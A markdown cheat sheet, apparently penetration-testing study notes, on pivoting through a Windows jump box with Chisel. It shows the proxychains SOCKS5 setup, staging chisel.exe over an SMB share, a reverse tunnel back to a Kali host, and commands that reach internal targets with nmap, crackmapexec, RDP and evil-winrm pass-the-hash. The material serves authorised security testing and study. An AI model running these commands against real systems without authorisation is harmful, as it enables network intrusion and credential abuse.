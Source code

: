# Port Forwarding with Chisel

## Config

Edit `/etc/proxychains4.conf` file

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5          127.0.0.1 1080
```

Comment `socks4` line and add `socks5` line.

## Sharing and transferring the files

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

- x86

```cmd
xcopy \\<Kali IP>\share\chisel\x86\chisel.exe C:\Temp\chisel\
```

- x64

```cmd
xcopy \\<Kali IP>\share\chisel\x64\chisel.exe C:\Temp\chisel\
```

## Kali <==> Windows JumpBox <==> Target

Kali - server

```bash
/opt/chisel/chisel server -p 8000 --reverse
```

Windows JumpBox - client

```cmd
.\chisel.exe client <Kali IP>:8000 R:socks
```

---

Access with nmap

- -Pn: Treat all hosts as online -- skip host discovery
- -n: Never do DNS resolution
- -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans

```bash
proxychains nmap -sT -p <Target Ports> -Pn -n <Target IP>
```

Access with mysql

```bash
proxychains mysql -h <Target IP> -u <user> -p
```

Access with crackmapexec

```bash
proxychains crackmapexec smb <Target IP> -u '<user>' -p '<pwd>'
```

Access with RDP

```bash
proxychains xfreerdp /v:<Target IP> /u:'<user>' /p:'<pwd>'
```

Access with ssh

```bash
proxychains ssh <user>@<Target IP>
```

Access with Evil-WimRM

```bash
proxychains evil-winrm -u '<domain>\<user>' -H '<NTLMHASH>' -i <Target IP>
```

Access with dbeaver

![dbeaver](images/proxychains_chisel_dbeaver.png)

## Download

- [Chisel - releases](https://github.com/jpillora/chisel/releases)

## Links

- [YouTube - Elevate Cyber - Chisel](https://www.youtube.com/watch?v=dIqoULXmhXg)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)